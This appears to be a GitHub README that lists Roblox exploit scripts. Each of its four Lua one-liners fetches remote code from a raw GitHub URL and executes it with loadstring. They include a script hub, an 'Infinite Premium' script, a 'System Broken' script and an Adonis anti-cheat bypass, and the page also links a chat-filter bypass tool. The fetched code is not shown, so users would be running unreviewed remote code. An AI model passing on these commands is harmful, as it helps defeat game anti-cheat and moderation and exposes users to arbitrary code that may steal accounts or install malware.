 **Script Hub**
```lua
loadstring(game:HttpGet('https://raw.githubusercontent.com/LmaoItsCrazyBro/new_main/refs/heads/main/total_main.lua'))()
```

**Infinite Premium**
```lua
loadstring(game:HttpGet('https://raw.githubusercontent.com/LmaoItsCrazyBro/new_main/refs/heads/main/Infinite_Premium.lua'))()
```

**System Broken**
```lua
loadstring(game:HttpGet('https://raw.githubusercontent.com/LmaoItsCrazyBro/new_main/refs/heads/main/System_Broken.lua'))()
```

**Adonis AntiCheat Bypass**
```lua
loadstring(game:HttpGet("https://raw.githubusercontent.com/Pixeluted/adoniscries/main/Source.lua",true))()
```

**Chat bypass adding soon: (WORKING, NO LANGUAGE CHANGE):**
https://lingojam.com/roblox-bypasser-op
